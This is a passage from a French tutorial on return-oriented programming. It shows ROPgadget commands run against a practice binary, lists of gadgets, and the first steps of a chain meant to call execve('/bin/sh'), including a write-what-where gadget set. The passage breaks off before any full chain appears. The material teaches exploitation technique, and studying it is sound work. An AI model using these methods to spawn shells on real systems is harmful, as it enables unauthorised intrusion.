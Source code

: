 Une commande de base est 

```bash
$ ROPgadget --binary rop

```

Cette commande va nous sortir tous les gadgets qui finissent par un RET avec 10 instructions ou moins avant.

En voici un extrait

```bash
[...]
0x0804c47e : xor eax, eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08050815 : xor eax, eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805489f : xor eax, eax ; pop ebx ; pop esi ; ret
0x0805821f : xor eax, eax ; pop ebx ; ret
[...]
Unique gadgets found: 11840
```

Vous voyez qu'on a de quoi faire. 11840 résultats.

Si par exemple nous voulons trouver un `XOR EAX, EAX`

```bash
$ ROPgadget --binary rop | grep "xor eax"
[...]
0x08049323 : xor eax, eax ; ret
```

Parfait. Nous avons notre premier gadget qui nous sera utile.

Je vous rappelle que nous voulons exécuter un shell. Il nous faut alors lancer `sys_execve("/bin/sh", NULL, NULL)`.

D'après la table des appels systèmes [32 bits](https://github.com/Hackndo/misc/blob/master/syscalls32.md){:target="blank"}, la valeur de `EAX` pour un `execve` est de 11. Maintenant qu'on a un gadget qui initialise `EAX` à zéro, il faut par exemple l'incrémenter.

```bash
$ ROPgadget --binary rop | grep "inc eax"
[...]
0x0804812c : inc eax ; ret
[...]
```

Parfait, so far so good.

Il nous faut ensuite faire en sorte que `EBX` pointe sur la chaine de caractère "/bin/sh", et que `ECX` et `EDX` soient des pointeurs nuls, car nous n'en avons pas besoin.

Pour pointer sur la chaine de caractère "/bin/sh", il faut la placer en mémoire. Pour cela, il faut pouvoir écrire où nous le souhaitons. C'est une suite de gadget assez recherchée en général, et elle a un nom bien précis **Write-what-where**.

En voici un exemple avec les gadgets proposés par le binaire

```bash
0x0806ed1a : pop edx ; ret
0x080b8056 : pop eax ; ret
0x080546db : mov dword ptr [edx], eax ; ret
```
